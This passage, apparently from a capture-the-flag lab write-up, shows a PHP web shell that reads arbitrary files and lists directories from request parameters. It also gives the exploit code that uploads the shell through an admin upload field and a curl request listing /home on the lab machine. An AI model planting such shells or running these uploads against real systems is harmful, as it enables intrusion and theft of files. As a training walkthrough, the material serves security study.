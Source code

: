 ![image*](/img/image-20210116152148808.png)

These functions are disabled, including `system` that's used in the
exploit.

`disable_functions` can be bypassed pretty easily, but that's not the
intended way to solve this box (I'll show it in the next section).

### Path #1: Enumeration via PHP

#### Read File / Dir List PHP

I modified the exploit again to upload a PHP file that allows me to get
files and directories:



    sploit = """<?php
    if (isset($_REQUEST['file'])) { 
        echo file_get_contents($_REQUEST['file']);
    } 

    if (isset($_REQUEST['dir'])) {
        print_r(scandir($_REQUEST['dir']));
    }

    ?>
    """
    files = {
            'vqmod': (rand + ".php", sploit, "application/xml"),
            'token':one,
            'upload':(None,"Upload")
        }



After running that, I can list a directory:



    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
    Array
    (
        [0] => .
        [1] => ..
        [2] => sysadmin
    )
